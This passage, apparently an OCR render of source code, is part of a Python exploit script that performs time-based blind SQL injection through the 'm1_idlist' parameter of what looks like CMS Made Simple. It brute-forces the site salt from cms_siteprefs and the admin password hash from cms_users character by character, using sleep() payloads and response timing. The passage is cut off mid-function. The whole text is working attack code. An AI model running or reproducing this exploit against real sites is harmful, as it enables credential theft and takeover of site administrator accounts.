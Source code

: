 ```python
    global output
    ord_salt = ""
    ord_salt_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_salt = salt + dictionary[i]
            ord_salt_temp = ord_salt + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_salt)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_siteprefs+where+sitepref_value+like+0x" \
            + ord_salt_temp + "25+and+sitepref_name+like+0x736974656d61736b)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            salt = temp_salt
            ord_salt = ord_salt_temp
    flag = True
    output += '\n[+] Salt for password found: ' + salt

def dump_password():
    global flag
    global password
    global output
    ord_password = ""
    ord_password_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_password = password + dictionary[i]
            ord_password_temp = ord_password + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_password)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users"
            payload += "+where+password+like+0x" + ord_password_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            password = temp_password
            ord_password = ord_password_temp
    flag = True
    output += '\n[+] Password found: ' + password

def dump_username():
    global flag
    global db_name
    global output
    ord_db_name = ""
    ord_db_name_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_db_name = db_name + dictionary[i]
```